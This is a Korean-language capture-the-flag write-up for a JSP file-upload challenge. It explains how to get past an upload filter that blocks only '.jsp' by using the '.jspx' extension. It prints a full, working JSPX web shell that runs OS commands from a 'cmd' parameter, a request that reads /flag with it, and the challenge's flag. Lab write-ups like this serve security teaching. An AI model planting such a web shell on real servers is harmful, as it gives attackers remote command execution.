

# JSP - File_Upload

## 문제 설명

이미지 업로드 기능이 있는 JSP 기반 페이지. `.jsp` 확장자만 명시적으로 차단하고 있으며, flag는 `/flag`에 존재한다.

```
.jsp 는 막혀있다. (flag 는 /flag)
```

## 분석

- `.jsp` 확장자만 필터링하고 있어 `shell.jsp.jpg` 형태로 우회 업로드는 가능했으나, 서버가 파일의 마지막 확장자(`.jpg`)를 기준으로 정적 이미지로 서빙해 JSP 코드가 실행되지 않았다.
- `.jspx`는 실행은 되지만 일반 `<% %>` 스크립틀릿 문법이 아니라 XML 기반의 JSP Document 문법을 요구한다.

## 익스플로잇

### 웹쉘 작성 (.jspx, JSP Document 문법)

```xml
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="2.0">
<jsp:directive.page contentType="text/html" />
<jsp:scriptlet>
<![CDATA[
String cmd = request.getParameter("cmd");
if (cmd != null) {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    out.println(s.hasNext() ? s.next() : "");
}
]]>
</jsp:scriptlet>
</jsp:root>
```

파일명: `shell.jspx`

### 업로드

업로드 폼을 통해 `shell.jspx`를 그대로 업로드한다. `.jsp`로 끝나지 않으므로 필터를 통과하고, 서버가 `.jspx`를 JSP로 정상 실행한다.

### 웹쉘 실행 및 flag 읽기

`cmd` 파라미터로 명령어를 전달해 flag 파일을 읽는다.

```
http://edu.arang.kr:9602/uploads/shell.jspx?cmd=cat%20/flag
```



## 플래그

```
flag{8c7a8a9846c217c39e03}
```
